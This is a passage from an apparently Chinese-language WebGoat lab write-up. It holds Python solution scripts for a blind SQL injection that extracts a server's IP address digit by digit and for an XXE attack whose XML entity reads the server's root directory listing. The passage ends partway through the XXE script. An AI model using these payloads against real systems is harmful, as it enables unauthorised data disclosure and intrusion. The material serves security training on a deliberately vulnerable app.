 ```python
substring 不熟，一个小bug卡了半个小时
"""
if __name__ == "__main__":
    url_pre = base_url + relative_url
    nums = ""

    for digit in range(1, 4):
        for num in digits:
            sql_end = f"""case when (SELECT ip FROM servers 
                        WHERE hostname = 'webgoat-prd' 
                        AND substring(ip, {digit}, 1) = '{num}' ) 
                            IS NOT NULL 
                        then ip 
                        else hostname end
                        """
            url = url_pre + sql_end
            r = requests.get(url, cookies=cookie)
            jsons = r.json()
            id = str(jsons[0]['id'])
            if id == '2':  # ip
                nums += str(num)
                break
            elif id == '3':  # hostname
                if len(nums) == 3:
                    break
            else:
                print(id)
    print(nums+ ".130.219.202")

```



### XML外部实体注入攻击

XML外部实体注入攻击（XEE，XML External Entity attack）

#### 3评论系统

> from `/WebGoat/start.mvc#lesson/XXE.lesson/3`
>
> 条件：一基于String boot的评论系统，可供用于xml注入。
>
> 要求：通过XML文件获取服务器系统根目录的文件列表。

```python
import requests
from os.path import abspath, dirname


base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}
result_file_name = "xxe3.txt"

relative_url = "/WebGoat/xxe/simple"  # /WebGoat/xxe/content-type, json
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

xml = '<?xml version="1.0"?> <!DOCTYPE comment [ <!ENTITY rootpath SYSTEM "file:///"> ]> <comment><text>&rootpath;</text></comment>'
headers = {'Content-Type': 'application/xml'}

url = base_url + relative_url

r = requests.post(url, data=xml, headers = headers, cookies=cookie)
with open(result_file_path, 'w') as file:
```